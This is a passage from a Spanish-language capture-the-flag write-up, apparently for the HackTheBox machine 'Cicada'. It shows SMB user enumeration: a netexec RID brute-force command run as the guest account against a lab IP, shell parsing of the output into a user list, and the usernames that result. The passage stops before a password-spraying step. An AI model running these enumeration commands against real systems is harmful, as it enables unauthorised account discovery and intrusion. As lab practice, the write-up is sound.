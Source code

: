 Parece que no tenemos permisos para ejecutar los comandos de enumeración que necesitamos.

Pero podemos intentar enumerar por fuerza bruta intentando adivinar el número `RID` de algún usuario, para esto ejecutamos el comando:

```python
nxc smb 10.129.68.116 -u 'guest' -p '' --rid-brute > usersRID.txt
```

* (Utilizamos el servicio SMB, ya que en el RPC no tenemos permisos)
* (El parámetro --users no nos devuelve nada, ni siquiera usando el usuario `guest`)

![3](./assets/3.png)

Para hacer una lista de los nombres de usuarios utilizamos `awk` y `tr` (También se pueden utilizar expresiones regulares para simplificar el proceso)

```python
grep '(SidTypeUser)' usersRID.txt | awk '{print $6}' | tr '\\' ' ' | awk '{print $2}' > users.txt
```

Y tenemos los usuarios:

```
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

Ahora vamos a probar si algún usuario se puede autenticar con la contraseña que encontramos anteriormente, usando el comando:
